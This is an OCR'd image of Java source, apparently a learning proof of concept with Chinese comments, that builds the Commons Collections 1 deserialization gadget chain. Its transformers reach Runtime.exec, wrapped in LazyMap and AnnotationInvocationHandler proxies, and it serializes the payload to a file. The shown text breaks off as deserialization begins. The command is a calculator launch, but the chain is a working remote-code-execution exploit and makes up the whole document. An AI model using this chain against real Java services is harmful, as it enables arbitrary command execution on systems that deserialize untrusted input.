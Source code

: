 ```java
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/9/19 22:00
 */
public class CommonsCollections1 {
    public static void main(String[] args) throws Exception {
        CommonsCollections1 transformerTest = new CommonsCollections1();
        transformerTest.serialize();
        transformerTest.unserialize();
    }

    /*
     * 客户端
     * */
    public void  serialize() throws Exception{
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建ChainedTransformer调用链
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
        // 获取AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 获取AnnotationInvocationHandler类的构造方法
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        // 设置方法访问权限
        constructor.setAccessible(true);
        InvocationHandler mapHandler = (InvocationHandler) constructor.newInstance(Override.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, mapHandler);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Override.class, proxyMap);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(handler);
    }

    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
```